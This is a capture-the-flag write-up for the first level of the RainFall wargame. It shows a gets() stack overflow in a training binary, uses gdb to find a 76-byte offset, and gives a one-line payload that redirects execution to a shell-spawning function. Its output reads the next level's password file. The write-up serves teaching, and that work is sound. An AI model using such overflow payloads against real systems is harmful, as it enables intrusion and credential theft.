 # Level 1

<h3>source.c</h3>

```console
void run(void) {
  fwrite("Good... Wait what?\n", 1, 19, stdout);
  system("/bin/sh");
}

void main(void) {
  char str[64];

  gets(str);
}
```

<h3>Analysis</h3>

This program is using the function `gets` with is unsafe and vulnerable to `buffer overflow` exploit

We can see that there is a function `run()` which will spawn a shell, but main function never call this function

We needs to find a way to run the call function `run()`

<h3>Exploit</h3>

We will use the vulnerability of `gets` function to overwrite the RET address, so when the function finish, it will jump to the address that we want to

Base on the assembly code, the stack should like something like this

```console
+------------+        -> esp
|  16 bytes  |        -> buffer for esp (0x50 or 80 bytes) each line represent 16 bytes
|  16 bytes  |        -> esp+0x10 start of the str pointer
|  16 bytes  |        
|  16 bytes  |
|  16 bytes  |        -> end of the str pointer (total 64 bytes)
+------------+
|   4 bytes  |        -> ebp
+------------+
|   4 bytes  |        -> RET (EIP)
+------------+
```

Theoretically by writing 64 bytes + 4 bytes (ebp) + 4 bytes (RET) should overwrite the return address

But the position of RET (EIP) might not be directly under the `ebp`, as compiler padding (alignment) can increase the size of the stack

We can see that there is an aligment at the start of the main function

```console
0x08048483 <+3>:  and    esp,0xfffffff0       -> bit alignment
```

Lets use gdb to check on how much bytes we needs to write before we can overwrite the `RET`

```console
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:   push   ebp
   0x08048481 <+1>:   mov    ebp,esp
   0x08048483 <+3>:   and    esp,0xfffffff0
   0x08048486 <+6>:   sub    esp,0x50
   0x08048489 <+9>:   lea    eax,[esp+0x10]
   0x0804848d <+13>:  mov    DWORD PTR [esp],eax
   0x08048490 <+16>:  call   0x8048340 <gets@plt>
   0x08048495 <+21>:  leave
   0x08048496 <+22>:  ret
End of assembler dump.
(gdb) break *0x08048495                                                       -> set breakpoint before the return command
Breakpoint 1 at 0x8048495
(gdb) r <<< $(python -c "print 'a'*64")                                       -> print 64 'a' char and run the program
Starting program: /home/user/level1/level1 <<< $(python -c "print 'a'*64")

Breakpoint 1, 0x08048495 in main ()
(gdb) info registers                                                          -> get all the registers information
eax            0xbffff6b0 -1073744208
ecx            0xb7fd28c4 -1208145724
edx            0xbffff6b0 -1073744208
ebx            0xb7fd0ff4 -1208152076
esp            0xbffff6a0 0xbffff6a0
ebp            0xbffff6f8 0xbffff6f8
esi            0x0  0
edi            0x0  0
eip            0x8048495  0x8048495 <main+21>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb) x/24wx $esp
0xbffff6a0: 0xbffff6b0  0x0000002f  0xbffff6fc  0xb7fd0ff4                    -> esp start at 0xbffff6a0
0xbffff6b0: 0x61616161  0x61616161  0x61616161  0x61616161                    -> all the 'a' char (0x61) that we give to the programs
0xbffff6c0: 0x61616161  0x61616161  0x61616161  0x61616161
0xbffff6d0: 0x61616161  0x61616161  0x61616161  0x61616161
0xbffff6e0: 0x61616161  0x61616161  0x61616161  0x61616161                    -> the write stops here with 64 * a
0xbffff6f0: 0x08048400  0x00000000  0x00000000  0xb7e454d3                    -> 0xbffff6f0 contains the EBP plus some empty paddings before we reach the RET address
```

As we can see from the stack frame above, 64 * a is not enough to overwrite the return pointer

We need to add the total byte of ebp + the extra padding in order to reach the RET

So we need to write a total of `64 + 12 = 76 char` as an offset before we could overwrite the RET

Now lets find the address of the `run()`

```console
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```

Great! We have the address of the `run()`, now we just need to pack everything together and give it to the program

The address need to be written in reverse because of little endian

The `cat -` is needed as we want the spawned shell to stay open and this is the work around

```console
level1@RainFall:~$ (python -c "print 'a' * 76 + '\x44\x84\x04\x08'"; cat - ) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```


